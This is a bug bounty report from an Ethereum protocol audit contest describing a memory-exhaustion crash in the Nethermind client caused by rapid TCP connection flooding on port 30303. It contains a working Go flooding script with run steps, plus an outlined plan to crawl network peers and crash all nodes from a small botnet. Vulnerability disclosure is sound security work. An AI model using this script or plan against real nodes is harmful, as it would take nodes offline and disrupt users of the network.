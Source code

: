 # #37120 \[BC-Insight] Remote handshake-based TCP/30303 flooding leads to an out-of-memory crash

**Submitted on Nov 25th 2024 at 23:06:28 UTC by @\`redacted user\` for** [**Attackathon | Ethereum Protocol**](https://immunefi.com/audit-competition/ethereum-protocol-attackathon)

* **Report ID:** #37120
* **Report Type:** Blockchain/DLT
* **Report severity:** Insight
* **Target:** https://github.com/NethermindEth/nethermind
* **Impacts:**
  * Unintended chain split affecting greater than or equal to 25% of the network (Network partition)

## Description

## Brief/Intro

A critical remote P2P crash vulnerability has been identified in Nethermind 1.29.1 (latest). If used in the wild it would result in netsplits.

## Vulnerability Details

When blank, telnet-like TCP connections are opened and closed as quickly as possible over TCP/30303, from a multithreaded attack script, an OOM crash occurs in the `nethermind` process - causing it to kill itself and require a manual reboot by node operators.

An attacker would hop the Ethereum network by handshaking into public nodes, gathering their peers, hopping from those, etc. until every `ip:port` in the network is databased for a modified attack script meant to be run on a micro-botnet.

From there, the attack script running on multiple machines would run down the list of peers, opening/closing P2P TCP connections as quickly as possible to trigger thousands of simultaneous crashes until every Nethermind node in the network is offline.

I would like to reiterate that it just connects/disconnects as quickly as possible to an IP:PORT without sending data, but rather spamming telnet-like connections that slide the radar with rate-limiting implementations, either fundamentally or through socks5/botnets/etc.

## Attack code (golang)

This attack code tests against any node you point it at. It is coded for a single attacking machine to disable `nethermind` on a remote victim-node machine. Save the following in a text editor and save it as `attack.go`

```
package main

import (
	"bufio"
	"fmt"
	"net"
	"os"
	"strconv"
	"strings"
	"sync/atomic"
	"time"
)

func main() {
	reader := bufio.NewReader(os.Stdin)
	fmt.Print("Enter threads: ")
	threadsStr, _ := reader.ReadString('\n')
	threads, _ := strconv.Atoi(strings.TrimSpace(threadsStr))

	var connections int64

	for i := 0; i < threads; i++ {
		go func() {
			for {
				conn, err := net.Dial("tcp", "127.0.0.1:30303")
				if err == nil {
					atomic.AddInt64(&connections, 1)
					conn.Close()
				}
			}
		}()
	}

	ticker := time.NewTicker(time.Second)
	lastCount := int64(0)
	for {
		<-ticker.C
		current := atomic.LoadInt64(&connections)
		rate := current - lastCount
		fmt.Printf("\rConnections/sec: %d Total: %d", rate, current)
		lastCount = current
	}
}
```

## Impact Details

A catastrophic, irrecoverable PR black eye. Users run the risk of their transactions being rejected or sent into the void. Netsplits/partitioning. An attacker could also short the markets and disable > 50% of the network.

## Outro and patch suggestion

This is a viable attack that is low in complexity but critical in impact. It would be easy for any script kiddie with this exploit to bring significant drama to the Ethereum network - bit troubling.

Many blockchain nodes just ban IP addresses that send obscene amounts of connections and requests in a way that doesn't make sense, e.g. TCP flooding the P2P port, incorrectly formatted version messages when handshaking in, etc. and I would study this approach.

## Proof of Concept

## Steps to reproduce (Ubuntu)

1. Open `attack.go` (above) in a text editor and change `127.0.0.1:30303` to your test `nethermind` node's `IP:PORT`, and then follow these instructions on a remote Ubuntu machine:
2. `snap install go --classic`
3. `ulimit -n 100000`
4. `go build attack.go`
5. `go run attack.go`
6. Enter `4000` threads
7. Tap \[Enter] and monitor the victim node's MEM usage until it ultimately crashes.

## PoC

Screenshots of before and after the attack are attached as a PoC.

